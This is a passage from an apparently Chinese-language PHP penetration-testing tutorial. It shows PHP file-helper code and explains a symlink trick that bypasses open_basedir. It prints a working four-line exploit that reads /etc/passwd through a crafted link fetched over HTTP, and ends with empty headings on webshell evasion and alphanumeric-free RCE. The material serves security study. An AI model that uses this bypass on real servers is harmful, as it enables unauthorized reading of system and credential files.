 ```php
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

如我们欲读取`/etc/passwd`。其实原理就是创建一个链接文件`x`，用相对路径指向`a/a/a/a`，再创建一个链接文件exp指向`x/../../../etc/passwd`。其实指向的就是`a/a/a/a/../../../etc/passwd`，其实就是`./etc/passwd`。这时候删除`x`，再创建一个`x`目录，但exp还是指向`x/../../../etc/passwd`，所以就成功跨到`/etc/passwd`了。 

精华就是这四句： 

```
<?php
symlink("abc/abc/abc/abc","tmplink"); 
symlink("tmplink/../../../etc/passwd", "exploit"); 
unlink("tmplink"); 
mkdir("tmplink");
```

我们访问 http://xxx/exp ，如果服务器支持链接文件的访问，那么就能读到`/etc/passwd`。 

其中并没有任何操作触发open_basedir，但达到的效果就是绕过了open_basedir读取任意文件。错误不在php，但又不知道把错误归结到谁头上，所以php一直未管这个问题。 

## 无数字字母RCE



## PHP WebShell免杀



## 非常见协议
